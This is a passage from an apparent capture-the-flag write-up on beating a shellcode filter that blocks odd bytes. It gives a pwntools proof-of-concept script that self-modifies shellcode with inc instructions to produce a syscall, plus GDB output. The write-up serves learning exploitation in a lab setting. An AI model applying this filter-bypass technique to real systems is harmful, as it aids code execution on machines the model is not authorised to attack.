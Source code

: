 ```
>>> asm('inc BYTE PTR ds:[rdx];')
b'\xfe\x02'
```
As a proof of concept, I first attempted to just make a syscall to see if it would work. The basic idea is that for each odd byte in the non-workable instruction, I will instead enter in that byte - 1. Then I move the rax (or rdx) register up to the spot of shellcode where that byte is positioned, and iterate the contents up with an inc instruction. Here is the basic script to pull this off:
```
from pwn import *

target = process('./two')

pid = gdb.attach(target, "\nb *main+363\n set disassembly-flavor intel\ncontinue")

#target = remote('host1.metaproblems.com', 5480)

print(target.recvuntil(b'What is your shellcode?'))

context.clear(arch='amd64')

shellcode = asm('''
mov al, 8;
inc BYTE PTR ds:[rax];
inc al;
inc BYTE PTR ds:[rax];
''')

#The actual syscall shellcode is b'\x0f\x05'
shellcode += b'\x0e\x04'

print(shellcode)


target.sendline(shellcode)

target.interactive()
```
Here is what the shellcode looks like in GDB/GEF when I initially start to execute it:
```
 → 0x133713370000                  mov    al, 0x8
   0x133713370002                  inc    BYTE PTR [rax]
   0x133713370004                  inc    al
   0x133713370006                  inc    BYTE PTR [rax]
   0x133713370008                  (bad)  
   0x133713370009                  add    al, 0x0
```
And here it appears after both inc's have been performed:
```
 → 0x133713370008                  syscall 
   0x13371337000a                  add    BYTE PTR [rax], al
   0x13371337000c                  add    BYTE PTR [rax], al
```
I can effectively write whatever shellcode I want at this point, albeit it in a slightly more time-consuming fashion.

